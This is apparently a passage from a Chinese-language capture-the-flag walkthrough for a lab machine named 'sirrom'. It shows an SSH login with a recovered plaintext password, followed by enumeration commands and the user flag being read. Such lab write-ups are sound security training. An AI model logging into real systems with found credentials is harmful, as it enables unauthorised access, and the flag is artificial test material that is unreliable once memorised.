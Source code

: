 ### 获得初始shell

- 使用解析得到的字符串`TryToGuessThisNorris@2k19`尝试登录系统

- Ps:这里有个坑，之前查找到的`.ssh/id_rsa.pub`文件中的用户名是`morris`。后根据字符串中的用户名后尝试得以登陆成功。

- ```shell
  └─$ ssh norris@192.168.2.6 -p 7822          
  norris@192.168.2.6's password: 
  Linux sirrom 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
  
  The programs included with the Debian GNU/Linux system are free software;
  the exact distribution terms for each program are described in the
  individual files in /usr/share/doc/*/copyright.
  
  Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
  permitted by applicable law.
  
  ###
     #     #    #     #     #####     #      ##     #####     #    #    #   ####
     #     ##   #     #       #       #     #  #      #       #    ##   #  #    #
     #     # #  #     #       #       #    #    #     #       #    # #  #  #
     #     #  # #     #       #       #    ######     #       #    #  # #  #  ###
     #     #   ##     #       #       #    #    #     #       #    #   ##  #    #
    ###    #    #     #       #       #    #    #     #       #    #    #   ####
  
  Last login: Fri Aug 18 21:22:23 2023 from 192.168.2.2
  norris@sirrom:~$ id
  uid=1001(norris) gid=1001(norris) groups=1001(norris),27(sudo)
  norris@sirrom:~$ uname -a
  Linux sirrom 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64 GNU/Linux
  norris@sirrom:~$ ip a
  1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
      link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
      inet 127.0.0.1/8 scope host lo
         valid_lft forever preferred_lft forever
      inet6 ::1/128 scope host 
         valid_lft forever preferred_lft forever
  2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
      link/ether 00:0c:29:2f:90:77 brd ff:ff:ff:ff:ff:ff
      inet 192.168.2.6/24 brd 192.168.2.255 scope global dynamic noprefixroute ens33
         valid_lft 1699sec preferred_lft 1699sec
      inet6 fe80::20c:29ff:fe2f:9077/64 scope link noprefixroute 
         valid_lft forever preferred_lft forever
  norris@sirrom:~$ cat 
  .bash_history  .bashrc        .gnupg/        .profile       
  .bash_logout   ftp/           .local/        user.txt       
  norris@sirrom:~$ cat user.txt 
  2c2836a138c0e7f7529aa0764a6414d0
  norris@sirrom:~$ 